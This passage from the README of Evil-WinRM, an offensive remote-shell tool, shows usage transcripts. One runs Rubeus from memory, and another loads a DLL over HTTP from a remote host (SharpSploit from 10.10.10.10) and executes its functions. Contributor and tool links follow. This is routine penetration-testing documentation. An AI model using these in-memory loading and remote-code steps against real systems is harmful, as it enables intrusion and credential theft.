 ```
    Function that execute binaries from memory.

*Evil-WinRM* PS C:\> Invoke-Binary /opt/csharp/Rubeus.exe

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0


 Ticket requests and renewals:


```

 - Dll-Loader: allows loading dll libraries in memory, it is equivalent to: `[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("pwn.dll"))`

   The dll file can be hosted by smb, http or locally. Once it is loaded type `menu`, then it is possible to autocomplete all functions.
```
*Evil-WinRM* PS C:\> Dll-Loader
.SYNOPSIS
    dll loader.
    PowerShell Function: Dll-Loader
    Author: Hector de Armas (3v4Si0N)

    Required dependencies: None
    Optional dependencies: None
.DESCRIPTION
    .
.EXAMPLE
    Dll-Loader -smb -path \\192.168.139.132\\share\\myDll.dll
    Dll-Loader -local -path C:\Users\Pepito\Desktop\myDll.dll
    Dll-Loader -http -path http://example.com/myDll.dll

    Description
    -----------
    Function that loads an arbitrary dll

*Evil-WinRM* PS C:\> Dll-Loader -http http://10.10.10.10/SharpSploit.dll
[+] Reading dll by HTTP
[+] Loading dll...
*Evil-WinRM* PS C:\Users\test\Documents> menu

 [... Snip ...]

*Evil-WinRM* PS C:\> [SharpSploit.Enumeration.Host]::GetProcessList()


Pid          : 0
Ppid         : 0
Name         : Idle
Path         :
SessionID    : 0
Owner        :
Architecture : x64

```

[Cybervaca]: https://github.com/cybervaca
[OscarAkaElvis]: https://github.com/OscarAkaElvis
[Jarilaos]: https://github.com/jarilaos
[arale61]: https://github.com/arale61
[Vis0r]: https://github.com/vmotos
[Alamot]: https://github.com/Alamot
[3v4Si0N]: https://github.com/3v4Si0N
[Borch]: https://github.com/Stoo0rmq
[donut]: https://github.com/TheWover/donut
[donut-maker]: https://github.com/Hackplayers/Salsa-tools/blob/master/Donut-Maker/donut-maker.py
[byt3bl33d3r]: https://twitter.com/byt3bl33d3r
[WinRb]: https://github.com/WinRb/WinRM/graphs/contributors
[TheWover]: https://github.com/TheWover
[Sh11td0wn]: https://github.com/Sh11td0wn
[ticketer.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
[ticket_converter.py]: https://github.com/Zer1t0/ticket_converter
[Rubeus]: https://github.com/GhostPack/Rubeus
[Mimikatz]: https://github.com/gentilkiwi/mimikatz
[cheatsheet]: https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a
[Dockerhub]: https://hub.docker.com/r/oscarakaelvis/evil-winrm
[Hackplayers]: https://www.hackplayers.com/
[@CyberVaca_]: https://twitter.com/CyberVaca_
[@OscarAkaElvis]: https://twitter.com/OscarAkaElvis
[@_Laox]: https://twitter.com/_Laox
[@arale61]: https://twitter.com/arale61
[Version-shield]: https://img.shields.io/badge/version-4.0-blue.svg?style=flat-square&colorA=273133&colorB=0093ee "Latest version"
[Ruby2.3-shield]: https://img.shields.io/badge/ruby-2.3%2B-blue.svg?style=flat-square&colorA=273133&colorB=ff0000 "Ruby 2.3 or later"
[License-shield]: https://img.shields.io/badge/license-LGPL%20v3%2B-blue.svg?style=flat-square&colorA=273133&colorB=bd0000 "LGPL v3+"
[Docker-shield]: https://img.shields.io/docker/automated/oscarakaelvis/evil-winrm.svg?style=flat-square&colorA=273133&colorB=a9a9a9 "Docker rules!"
[Gem-Version]: https://badge.fury.io/rb/evil-winrm.svg "Ruby gem"